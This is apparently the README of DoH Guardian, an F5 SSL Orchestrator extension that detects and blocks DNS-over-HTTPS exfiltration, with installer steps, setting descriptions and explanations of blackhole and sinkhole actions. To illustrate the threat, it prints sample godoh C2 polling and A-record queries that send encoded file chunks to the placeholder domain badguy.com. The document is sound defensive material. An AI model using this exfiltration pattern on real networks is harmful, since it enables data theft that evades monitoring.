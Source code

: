 # SSL Orchestrator DoH Guardian
DoH Guardian is an F5 SSL Orchestrator **service extension** function for monitoring/managing DNS-over-HTTPS traffic flows and detecting potentially malicious DoH exfiltration. This SSL Orchestrator service extension is invoked at a detected (and decrypted) DNS-over-HTTPS request and has several options for logging, management, and anomaly detection.

Requires:
* BIG-IP SSL Orchestrator 17.1.x (SSLO 11.1+)
* Optional URLDB subscription -and/or- custom URL category (if categorization is required)

### To implement via installer:
1. Run the following from the BIG-IP shell to get the installer:
  ```bash
  curl -sk https://raw.githubusercontent.com/kevingstewart/sslo-service-extension-doh-guardian/refs/heads/main/doh-guardian-installer.sh -o doh-guardian-installer.sh
  chmod +x doh-guardian-installer.sh
  ```

2. Export the BIG-IP user:pass:
  ```bash
  export BIGUSER='admin:password'
  ```

3. Run the script to create all of the DoH Guardian objects
  ```bash
  ./doh-guardian-installer.sh
  ```

4. The installer creates a new inspection service named "ssloS_F5_DoH". Add this inspection service to any service chain that can receive decrypted HTTP traffic. Service extension services will only trigger on decrypted HTTP, so can be inserted into service chains that may also see TLS bypass traffic (not decrypted). SSL Orchestrator will simply bypass this service for anything that is not decrypted HTTP.

------
### To customize functionality
The **doh-guardian-rule** iRule has a number of editable settings:
* **DOH_LOG_LOCAL**: <br />Enables or disables local (/var/log/ltm) logging of DoH requests and events. (1=on, 0=off)
* **DOH_LOG_HSL**: <br />Defines a high-speed logging pool to send logs to external SIEM. (pool name)
* **DOH_CATEGORY_TYPE**: <br />Defines the category database to use, subscription, custom, or both. (string selection)
* **DOH_BLOCKING_BASIC**: <br />Enables or disables basic DoH blocking. This option is mutually exclusive and simply blocks all detected DoH requests. (1=on, 0=off)
* **DOH_BLACKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH blackhole action. (category list)
* **DOH_BLACKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default blackhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH sinkhole action. (category list)
* **DOH_SINKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default sinkhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_IP4**: <br />Defines the IP4v address that will be used for the sinkhole action on A requests. (ipv4 address)
* **DOH_SINKHOLE_IP6**: <br />Defines the IP4v address that will be used for the sinkhole action on AAAA requests. (ipv6 address)
* **DOH_ANOMALY_DETECTION**: <br />Enables or disables anomaly detection. (1=on, 0=off)
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN**: <br />Defines the long subdomain anomaly detection, by virtue of a max character length setting (integer, default=52 characters). 
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN_ACTION**: <br />Defines the action to be taken on the long subdomain anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE**: <br />Defines the uncommon query type anomaly detection, by virtue of a list of uncommon types. (DNS record type list)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE_ACTION**: <br />Defines the action to be take on the uncommon type anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)

------
### DoH Inspection Explained

You may be asking, why do I need to inspect DNS-over-HTTPS traffic? DNS has been around longer than the web, and to be honest, you don't hear a lot about it with all of the other more exciting (and terrifying) security issues flying around. As it happens, though, DNS as a protocol is extremely flexible, making it very good at things like side-channel attacks and data exfiltration. In a scenario where an attacker can control a client on an enterprise network, and a DNS server out on the Internet, it becomes rather trivial for that attacker to move (exfiltrate) arbitrary data in the form of small chunks of encoded TXT records, or even dynamic subdomain names. However, as DNS itself is not encrypted, it's typically very easy to spot these anomalies. And most enterprises will implement local DNS forwarding, so data exfiltration over raw DNS is rarely successful. However...DNS-over-HTTPS (DoH) is essentially DNS wrapped in encrypted HTTPS for added security. The original intention for this is to provide privacy, but DoH has been found to possess some interesting drawbacks:

* The most popular browsers support DoH, and by default point their queries at Internet-based services like Cloudflare and Google. Where an enterprise once had full visibility of their DNS traffic, that is now absent unless you either set up local DoH services and modify all local browser clients to use this, or just block access to Cloudflare and Google DNS altogether. It is worth noting, though, that these are only two of thousands of DoH providers available.
* DoH rides on regular HTTPS, port 443, and is otherwise indistinguishable from regular HTTPS web traffic. It's not generally possible to simply "block DoH" unless you do so, either by known DoH URLs, or by decrypting it and inspecting the payloads.

Unquestionably, DNS-over-HTTPS is an important privacy enhancement to DNS; but in doing so now obfuscates serious data leakage exploits. DoH inspection is the explicit decryption of outbound HTTPS traffic and subsequent detection of the DoH requests and responses. This function allows an organization to regain visibility and control of DNS requests heading out to Internet DoH providers. From simple logging or blocking, to DNS blackhole and sinkhole actions, and some exfiltration anomaly detections, DoH inspection can be a vital part of the overall security of enterprise traffic flows.

------
### DoH Anomaly Detection Explained

Before getting into the weeds of DoH anomaly detection, it's important to illustrate an actual exploit. There are many different tools for doing DoH exfiltration, but they all run on essentially the same basic principles: encoding chunks of data in multiple DNS requests. A compromised system inside the corporate network will make DNS-over-HTTPS queries to some public DoH service (ex. Cloudflare), which wlll forward those requests to a C2 DNS instance somewhere on the Internet. From the organization's perspective, this is just HTTPS traffic going to Cloudflare. The compromised client "agent" will periodically query the C2 instance, and when ready the C2 instance will issue a command in its response. We can look at a simple example from the **godoh** tool. In this case, the client agent makes successful contact with the C2 instance and sends periodic queries, waiting for commands:

```bash
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
```

This is a DNS **TXT** record request. At some point, the C2 instance will issue a command that it encodes in its TXT record response. The C2 server could, for example, say something like, "Give me your /etc/passwd file." The client agent will then go do the thing (get the local /etc/passwd file), break it into a bunch of small pieces, encode those pieces, and then send those pieces to the C2 instance as A record requests:

```bash
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.12.a88ac3df.0.3.f943910ae0adcf7105990f3192c19236d04c0df22f897d91c3efec75f2d1.f9d26d1e218b77c6a28c9681391596f610ecbfac02f5b3bc5d5763b891c4.ea32f05d2bfc4eb65078835e0d8234f8b76bf20099e87b13305d14c23f98.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
```

There are a number of ways to "detect" anomalous DNS-over-HTTPS traffic, as documented in [Real time detection of malicious DoH traffic using statistical analysis](https://www.sciencedirect.com/science/article/pii/S1389128623003559). In this implementation we focus on two of these:

* **Abnormally long subdomain names**: where, as illustrated above, the full subdomain in a DoH exfiltration event will exceed some character length (default 52 characters).
* **Uncommon query types**: where the DoH agent uses an uncommon query type to convey messages (ex. NULL, NAPTR).

------
### DoH Blackhole Action Explained

By [definition](https://www.ijitee.org/wp-content/uploads/papers/v8i7c2/G10040587C219.pdf), a DNS blackhole essentially diverts a DNS client to *nothing*. A DNS blackhole will either drop the request entirely, or respond with an NXDOMAIN. However, a browser that fails in getting a DoH response will almost always retry with regular DNS, making this a less effective option. To properly blackhole a DoH request, the client must receive an actual response, but to something that does not exist. In this implementation, a DoH blackhole responds to the client with either a 199.199.199.199 IPv4 address for an A request, or 0:0:0:0:0:ffff:c7c7:c7c7 IPv6 address for a AAAA request.

------
### DoH Sinkhole Action Explained

In a sinkhole response, the resolver sends back an IP address that points to a local blocking server. In contrast to a blackhole, a DNS sinkhole is diverting to *something*. The sinkhole destination is then able to respond to the client's request, so instead of just dying, the user might get a blocking page instead. In a DoH/DNS sinkhole without SSL Orchestrator, a client would initiate a TLS handshake to this server (believing it's the real site), and would get a certificate error because the server certificate on that blocking server doesn't match the Internet hostname requested by the client. The SSL Orchestrator solution requires two configurations:

* A sinkhole internal virtual server that simply hosts the "blank" certificate that SSL Orchestrator will use to mint a trusted server certificate to the client.
* An SSL Orchestrator outbound L3 topology modified to listen on the sinkhole destination IP, and inject the blocking response content.
























